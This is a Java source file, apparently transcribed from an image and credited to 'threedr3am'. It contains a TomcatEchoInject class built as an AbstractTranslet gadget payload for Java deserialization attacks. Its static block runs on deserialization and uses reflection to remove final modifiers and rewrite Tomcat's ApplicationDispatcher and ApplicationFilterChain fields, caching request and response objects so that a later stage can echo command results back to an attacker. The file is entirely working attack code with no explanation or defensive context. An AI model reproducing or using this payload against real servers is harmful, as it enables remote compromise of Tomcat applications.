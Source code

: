     /**
     * @author threedr3am
     */
    public class TomcatEchoInject  extends AbstractTranslet {

      static {
        try {
          /*刚开始反序列化后执行的逻辑*/
          //修改 WRAP_SAME_OBJECT 值为 true
          Class c = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
          java.lang.reflect.Field f = c.getDeclaredField("WRAP_SAME_OBJECT");
          java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField("modifiers");
          modifiersField.setAccessible(true);
          modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
          f.setAccessible(true);
          if (!f.getBoolean(null)) {
            f.setBoolean(null, true);
          }

          //初始化 lastServicedRequest
          c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
          f = c.getDeclaredField("lastServicedRequest");
          modifiersField = f.getClass().getDeclaredField("modifiers");
          modifiersField.setAccessible(true);
          modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
          f.setAccessible(true);
          if (f.get(null) == null) {
            f.set(null, new ThreadLocal());
          }

          //初始化 lastServicedResponse
          f = c.getDeclaredField("lastServicedResponse");
          modifiersField = f.getClass().getDeclaredField("modifiers");
          modifiersField.setAccessible(true);
          modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
          f.setAccessible(true);
          if (f.get(null) == null) {
            f.set(null, new ThreadLocal());
          }
        } catch (Exception e) {
          e.printStackTrace();
        }
      }

      @Override
      public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

      }

      @Override
      public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
          throws TransletException {

      }
    }
